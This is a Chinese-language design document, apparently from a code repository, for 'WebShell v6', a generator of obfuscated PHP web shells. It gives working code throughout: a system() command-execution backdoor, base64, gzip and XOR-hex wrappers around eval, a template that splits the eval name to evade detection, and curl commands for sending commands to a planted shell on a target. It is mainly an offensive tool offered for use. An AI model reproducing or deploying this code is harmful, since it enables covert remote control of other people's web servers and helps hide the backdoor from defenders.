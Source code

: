 # WebShell v6 代码生成逻辑说明

## 1. 基本架构

WebShell v6采用了多层加密和混淆的方式来生成PHP后门，主要包含以下几个核心组件：

### 1.1 随机变量生成
```python
def random_var(length=6):
    return ''.join(random.choices(string.ascii_letters, k=length))
```
- 用于生成随机变量名
- 默认长度为6个字符
- 仅使用字母字符，确保变量名合法

### 1.2 XOR加密实现
```python
def xor_encrypt(payload, key):
    return ''.join(chr(ord(c) ^ ord(key[i % len(key)])) for i, c in enumerate(payload))
```
- 使用XOR算法对payload进行加密
- 密钥循环使用
- 字符级别的加密

## 2. Payload生成流程

### 2.1 基础payload结构
```php
if(isset($_REQUEST['{param}'])){
    ob_start();
    system($_REQUEST['{param}']);
    $output=ob_get_clean();
    echo $output;
}
```
- 使用ob_start()和ob_get_clean()捕获命令执行输出
- 参数名随机选择（"cmd"/"c"/"x"）
- 使用system()函数执行命令

### 2.2 加密方式
支持三种不同的加密方式：

1. Base64编码
```php
eval(base64_decode("..."));
```

2. Gzip压缩+Base64编码
```php
eval(gzinflate(base64_decode("...")));
```

3. XOR加密+Hex编码
```php
$k="密钥";$d='';$e=hex2bin("加密数据");
for($i=0;$i<strlen($e);$i++){ $d.=$e[$i]^$k[$i%strlen($k)]; }
eval($d);
```

## 3. WebShell模板生成

### 3.1 模板结构
```php
<?php
${var_fn} = "e"."v"."a"."l";  // 拆分eval函数名
${var_data} = $_REQUEST['{param}'] ?? '';  // 获取参数
if(strlen(${var_data}) > 0) {  // 长度检查
    ${var_decoded} = {payload_code}  // 解密执行
}
?>
```

### 3.2 特点
- eval函数名被拆分，避免直接检测
- 使用PHP 7+ 的null合并运算符(??)
- 变量名随机化
- 参数名在整个文件中保持一致

## 4. 使用方法

### 4.1 生成样本
```python
python3 gen_php_webshellv6.py  # 生成100个样本
```

### 4.2 连接方式
```bash
curl -X POST http://target/shell_XX.php -d "c=id"  # 使用c参数
curl -X POST http://target/shell_XX.php -d "cmd=whoami"  # 使用cmd参数
curl -X POST http://target/shell_XX.php -d "x=ls"  # 使用x参数
```

## 5. 安全特性

1. 多层加密
   - Base64
   - Gzip+Base64
   - XOR+Hex

2. 代码混淆
   - 随机变量名
   - 函数名拆分
   - 参数名随机化

3. 输出处理
   - 使用输出缓冲
   - 错误抑制
   - 命令执行结果回显 